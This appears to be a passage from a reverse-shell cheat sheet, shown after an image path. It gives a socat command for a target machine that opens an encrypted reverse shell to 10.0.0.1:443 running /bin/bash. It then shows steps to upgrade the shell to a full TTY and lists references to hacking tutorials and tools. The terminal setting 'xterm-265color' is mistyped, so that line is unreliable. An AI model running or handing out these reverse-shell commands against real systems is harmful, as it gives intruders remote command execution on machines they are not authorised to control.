 After that on the target machine run socat with OPENSSL:

```
socat OPENSSL:10.0.0.1:443,cert=rev_shell.pem,verify=0 EXEC:/bin/bash
```

## Improve the rev shell to TTY

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Run to background with `Ctrl + Z`

```
stty raw -echo;fg
export TERM=xterm-265color
```

> **Don't use** `tmux` and `rlwrap` if you want better results.

# References:

* [https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/)
* [https://www.sniferl4bs.com/2017/04/hacking-101-reverse-shell-bind-shell.html](https://www.sniferl4bs.com/2017/04/hacking-101-reverse-shell-bind-shell.html)
* [https://securityhacklabs.net/articulo/accediendo-remotamente-a-windows-10-con-metasploit](https://securityhacklabs.net/articulo/accediendo-remotamente-a-windows-10-con-metasploit)
* [https://www.youtube.com/watch?v=fIGvOGrdxyc\&t=164s](https://www.youtube.com/watch?v=fIGvOGrdxyc\&t=164s)
* [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

